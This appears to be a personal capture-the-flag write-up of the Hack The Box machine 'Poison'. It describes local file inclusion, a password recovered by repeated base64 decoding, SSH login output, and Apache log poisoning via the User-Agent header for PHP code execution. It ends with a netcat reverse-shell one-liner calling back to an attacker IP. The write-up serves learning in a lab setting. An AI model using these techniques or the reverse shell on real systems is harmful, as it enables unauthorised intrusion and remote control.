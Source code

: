 
# Attack Surface

## Website

#### Method 1
![[Pasted image 20210408090619.png]]
- Here we can see some files that need to be tested.
- We can see from bros, there can be LFI in file parameter. Interestingly, there is also a file called pwdbackup.txt.
![[Pasted image 20210408090751.png]].
- Going to that file
![[Pasted image 20210408090841.png]]

- Copy that text and run `base64 -d` 13 times on it. We get a password.
- Use LFI to check for /etc/passwd
![[Pasted image 20210408090957.png]]
- The password most likely seems for charix. Using ssh, we can login as charix and cat out the user.txt
```bash
ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Thu Apr  8 12:02:58 2021 from 10.10.14.15
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To see the IP addresses currently set on your active interfaces, type
"ifconfig -u".
                -- Dru <genesis@istar.ca>
charix@Poison:~ % id ; ls
uid=1001(charix) gid=1001(charix) groups=1001(charix)
lin_log         linpeas.sh      secret          secret.zip      user.txt
charix@Poison:~ % 

```

#### Method 2 : Log Poisoning

- We can check through the file parameter, whether we can read the apache access logs. Quick google:
- ![[Pasted image 20210408103144.png]]
- We can change it to httpd-access.log
- We can make a requests by changing the User-Agent (using burp), as it is not being changed. We can test whether PHP code is being executed by trying.
	- `Hello`, `"Hello"`, `'Hello'`
- We can see that "Hello" is being escaped by backslashes, therefore we need to be sure to use single-quotes in the user-agent, or the PHP code might not execute
![[Pasted image 20210408135136.png]]
- We can get PHP code execution, by passing the desired command to sad parameter
- ![[Pasted image 20210408135323.png]]
- ![[Pasted image 20210408135309.png]]
- Use `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 9001 >/tmp/f` to get a revshell and we can use the same pwdbackup.txt to elevate privileges to charix